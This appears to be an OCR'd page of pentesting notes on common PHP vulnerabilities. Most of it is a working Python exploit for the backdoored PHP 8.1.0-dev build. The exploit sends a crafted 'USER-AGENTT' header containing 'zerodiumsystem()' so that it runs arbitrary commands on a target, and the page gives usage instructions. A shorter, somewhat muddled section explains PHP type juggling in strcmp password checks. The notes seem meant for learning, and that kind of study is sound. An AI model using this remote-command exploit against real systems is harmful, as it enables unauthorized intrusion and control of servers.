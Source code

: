 ### Common PHP Vulnerabilities

#### php 8.1.0-dev

Refer to the link below about the vulnerability and exploitation

```
https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/
```

Simply, we need to send an HTTP header named \[USER-AGENTT] and \[zerodium] for the malicious code. Given all that, we craft the python exploit code below \[script name: 8.1.0-dev.py]

```python
#!/usr/bin/env python3

import requests

from sys import argv, exit

if len(argv) < 3:

 print("[!] Supply the URLi and command to run")

 exit(1)

header={"USER-AGENTT":"zerodiumsystem(\""+argv[2]+"\");"}

url=argv[1]

r = requests.get(url, headers=header)

print(r.text.split("<!DOCTYPE html>")[0])
```

Run the exploit as below

```php
php 8.1.0-dev.py [URL-Target] [Command]
```

#### PHP Type juggling

Its a type of php flaw that occurs when php compares two different strings. The code below compares two different strings in \[php] with an if statement

```php
strcmp(admin, admin0123)
```

The output of the above statement is where the two strings differ. The flaw happens when one of the parameters used in comparison is taken as an input from the user

```php
strcmp($_REQUEST['password'], $password)
```

